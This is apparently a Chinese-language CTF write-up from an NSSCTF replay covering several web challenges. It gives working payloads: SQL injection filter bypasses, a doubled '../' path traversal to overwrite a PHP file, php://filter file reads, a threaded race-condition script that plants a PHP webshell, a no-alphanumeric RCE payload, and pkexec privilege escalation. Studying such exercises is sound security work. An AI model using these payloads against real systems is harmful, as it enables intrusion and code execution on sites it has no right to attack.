

##  复现环境

`NSSCTF`

##  高手高手高高手

因为没有复现环境，我这儿只总结一下思路：

1.扫描目录发现git泄露，恢复源码

2.登录login.php，网上有漏洞，但是没有poc，就根据补丁一个一个看，这个思路好

3.SQL注入的地方

```php
<?php 
function protect($str){
$str = str_replace("'", '\\'."'", $str);
            $str = "'".$str."'";
            return $str;
}
$column='id';
$table='nv_users';
$str="";
$where='cookie_hash = '.protect($str);
$order='';
$sql='SELECT ' . $column . ' FROM ' . $table . ' WHERE ' . $where . $order . ' LIMIT 1';
echo $sql;

```

对单引号实现了`\`转义，这个绕过姿势可以学习`我自己写个反斜杠则可以转义掉`

payload

```
\' || 1=1#
```

进入后台是一个文件覆盖的漏洞


可以将上传的文件写入，但是还要传个id，并且最终拼接成了路径是已存在的文件。
也就是说可以覆盖已有文件。
那么我们可以直接覆盖一个php文件。首页里面有个navigate_info.php，可以覆盖。
问题来了，对传入的id进行了替换，将…/替换成了空。
不过不要紧，可以采用`双写绕过`的方式。

学到了的姿势：对于replace这种，替换，就可以利用双写绕过


拿到马后，需要`pkexec`提权

然后需要删除掉网站根目录下的bocai.html、bocai.png，发现 bocai.html 和 bocai.png 不能删、不能移动

利用 chattr -a bocai* 命令去除该属性

最后执行flag的可执行文件就可。

##  简单包含

考点：就是一个php的伪协议读文件内容

这个题有点脑洞

直接读flag.php是返回waf的

```
<?php 
highlight_file(__FILE__);
include($_POST["flag"]);
//flag in /var/www/html/flag.php;
```

最后的是需要传入很多参数就可以读flag

```php
1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&flag=php://filter/convert.base64-encode/resource=flag.php
```

##  压缩包

考点：条件竞争

```php
<?php
highlight_file(__FILE__);

function removedir($dir){
    $list= scandir($dir);
    foreach ($list as  $value) {
        if(is_file($dir.'/'.$value)){
            unlink($dir.'/'.$value);
        }else if($value!="."&&$value!=".."){
            removedir($dir.'/'.$value);
        }
    }
}
//传进来一个文件名，"/tmp/".md5($content)
function unzip($filename){
    $result = [];
    //创建一个压缩对象
    $zip = new ZipArchive();
    //打开压缩文件
    $zip->open($filename);
    $dir = $_SERVER['DOCUMENT_ROOT']."/static/upload/".md5($filename);
    //创建目录
    if(!is_dir($dir)){
        mkdir($dir);
    }
    //解压到dir目录下
    if($zip->extractTo($dir)){
        //遍历目录下文件
        foreach (scandir($dir) as  $value) {
            //查找指定字符在字符串中的最后一次出现
            $file_ext=strrchr($value, '.');
            $file_ext=strtolower($file_ext); //转换为小写
            $file_ext=str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
            $file_ext=trim($file_ext); //收尾去空
            if(is_dir($dir."/".$value)&&$value!="."&&$value!=".."){
                removedir($dir);
            }
            if(!preg_match("/jpg|png|gif|jpeg/is",$file_ext)){
                if(is_file($dir."/".$value)){
                    unlink($dir."/".$value);
                }else{
                    if($value!="."&&$value!="..")
                        array_push($result,$value);
                }

            }

        }
        $zip->close();
        unlink($filename);
        return json_encode($result);
    }else{
        return false;
    }
}
$content= $_REQUEST['content'];
shell_exec('rm -rf /tmp/*');
$fpath ="/tmp/".md5($content);
file_put_contents($fpath, base64_decode($content));
echo unzip($fpath);
?>
[]
Warning: mkdir(): No such file or directory in /var/www/html/index.php on line 21
[][]
```

首先看这个代码的逻辑，我们的可控点是`content`，同时可以写入文件进去，在`unzip`函数中`extractTo`可以解压`/tmp`的文件到`$_SERVER['DOCUMENT_ROOT']."/static/upload/".md5($filename)`,然后经过一大堆过滤，最后就是`unlink`删除文件，所以我们可以进行条件竞争，在解压文件和删除文件进行竞争

直接写脚本

```python
import requests
import hashlib
import threading
import base64

url = "http://1.14.71.254:28451/"
sess=requests.session()
r = open("1.zip", "rb").read()
content = base64.b64encode(r)
data={
    'content': content
}
m=hashlib.md5(content)
md=hashlib.md5(('/tmp/'+str(m.digest().hex())).encode())
def write(session):
    while True:
        resp=session.post(url,data=data)
def read(session):
    while True:
        resp=session.get(url+f'static/upload/{md}/1.php')
        if resp.status_code==200:
            print("success")
if __name__=="__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in range(1, 30):
            threading.Thread(target=write, args=(session,)).start()

        for i in range(1, 30):
            threading.Thread(target=read, args=(session,)).start()
    event.set()

```

##  简单的php

```php
<?php
show_source(__FILE__);
    $code = $_GET['code'];
    if(strlen($code) > 80 or preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/is',$code)){
        die(' Hello');
    }else if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)){
        @eval($code);

    }

?>
```

看到第一个过滤，就是[无字母数字命令执行](https://blog.csdn.net/miuzzx/article/details/109143413?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522166183464616782388057456%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=166183464616782388057456&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-109143413-null-null.nonecase&utm_term=%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97&spm=1018.2226.3001.4450)

然后第二个过滤，就是[无参数构造实现RCE](https://xz.aliyun.com/t/10212#toc-4)

直接payload

system(current(getallheaders()));

```
?code=[~%8c%86%8c%8b%9a%92][!%FF]([~%9c%8a%8d%8d%9a%91%8b][!%FF]([~%98%9a%8b%9e%93%93%97%9a%9e%9b%9a%8d%8c][!%FF]())); 
```

需要注意的是：要用`[!%FF]`来进行分割



##  easygo 

下载附件，是 go.mod，里面有个 github 地址

然后就是出现了利用姿势

```
juice/1' UNION SELECT 1,flag FROM super_secret_table--+
```

##  can_u_login 

就是一个自查询实现SQL注入

```
password='UNION/**/SELECT/**/REPLACE(REPLACE('"UNION/**/SELECT/**/REPLACE(REPLACE("1",CHAR(34),CHAR(39)),CHAR(49),"1")%23',CHAR(34),CHAR(39)),CHAR(49),'"UNION/**/SELECT/**/REPLACE(REPLACE("1",CHAR(34),CHAR(39)),CHAR(49),"1")%23')%23
```

## easy_sql

扫目录拿`phpmyadmin`目录，然后弱口令登录

## 初赛的wp：

https://blog.csdn.net/miuzzx/article/details/125576866?spm=1001.2014.3001.5502


